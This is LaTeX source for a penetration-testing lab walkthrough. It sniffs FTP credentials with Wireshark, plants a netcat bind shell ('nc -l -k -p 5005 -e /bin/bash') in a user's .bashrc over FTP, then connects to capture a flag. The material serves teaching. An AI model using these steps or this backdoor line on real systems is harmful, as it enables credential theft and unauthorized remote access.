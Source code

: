 \documentclass[a4paper,11pt]{report}
\begin{document}
			Open the program Wireshark and start a listener on eth1. 
			This is the NIC that is connected to the remote server and that someone may be interacting with it on. 
			Usually this would be done through means such as a \href{https://lanturtle.com/}{LAN Turtle}, 
			However, for the purposes of this demonstration, we will simply be using a local network interface. 

			When the listener is setup, look for a set of TCP and FTP packets to the target from your machine. 
			These will likely be the FTP authentication, so right click and select ``Follow TCP Stream'' to view the messages that were sent. 
			At this point you should have the user name and password. 
			If you do not, find another set of TCP and FTP messages and try again. 
			For more information on using Wireshark, see it's section in Chapter \ref{ch:Forensics}.

			Now that we can alter files on their system, add the following line to their .bashrc.
			This will open a listener on port 5005 which can be interacted with from any computer on the network. 
			\begin{quote}
				nc -l -k -p 5005 -e /bin/bash
			\end{quote}

			Using FTP with the user name and password that you found, run the following commands:
			\begin{verse}
				get .bashrc \\
			\end{verse}
			Exit FTP at this point and edit the required line into the .bashrc then run the following FTP command:
			\begin{quote}
				put .bashrc
			\end{quote}
			This will mean that as soon as the msfadmin user logs into their account, a shell will be opened on port 5005. 

			At this point, we can get shell access to the computer using the following command:
			\begin{quote}
				ncat <target IP> 5005
			\end{quote}
			While you will not see it, this will give you access to a shell, but no prompt. 
			Try any shell command that you know, most will work. 
			
			At this point, navigate to the file at ``/etc/flag'' and tell me the flag that you find. 
\chapter{Web Penetration}
	\label{ch:WebPenetration}
\end{document}
